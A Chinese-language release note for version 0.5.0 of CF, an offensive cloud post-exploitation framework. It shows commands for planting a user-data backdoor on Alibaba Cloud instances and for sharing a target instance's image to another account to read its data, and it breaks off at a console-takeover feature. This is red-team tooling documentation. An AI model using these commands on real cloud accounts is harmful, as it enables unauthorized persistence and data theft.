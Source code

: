 ﻿---
title: 0.5.0 版本更新描述
---

<center><h1>CF 云环境利用框架现已更新至 0.5.0 版本</h1></center>

CF 是一个云环境利用框架，主要拿来进行云访问凭证的后利用，助力云上攻防。

CF 于 2022 年 7 月 1 日发布，今天正好是该工具发布的一周年，现在 CF 已有近 2k Stars，今天 CF 更新到了 0.5.0 版本，这里介绍下这个版本所更新的内容。

CF 项目地址：[github.com/teamssix/cf](https://github.com/teamssix/cf)

CF 使用手册：[wiki.teamssix.com/cf](https://wiki.teamssix.com/cf)

## 新增功能

### 1. 新增阿里云用户数据后门功能

由于在实例启动时，会执行用户数据中的内容，因此通过往用户数据中写入文件，可以起到后门的作用。

现在使用以下命令，就可以修改实例中的用户数据，这样当实例重启时就会执行该命令了。

```bash
cf alibaba ecs exec --userDataBackdoor "whoami"
```
<img width="900" src="/img/1688136553.png">

### 2. 新增阿里云镜像共享功能

通过镜像共享功能，可以将当前实例的镜像共享给其他的阿里云账号，这样当其他的阿里云账号下使用这个共享镜像创建实例的时候，就能看到目标实例中的数据了。

使用以下命令进行创建共享镜像，-a 参数用来指定要共享给的阿里云账号。

```bash
cf alibaba ecs imageShare -a <account_id>
```

<img width="900" src="/img/1688136975.png">

使用以下命令，可以列出当前已共享的镜像。

```bash
cf alibaba ecs imageShare ls
```

<img width="900" src="/img/1688137015.png">

使用以下命令即可取消共享镜像。

```bash
cf alibaba ecs imageShare cancel
```

<img width="900" src="/img/1688137294.png">

### 3. 新增阿里云接管控制台时自动创建 AK 功能

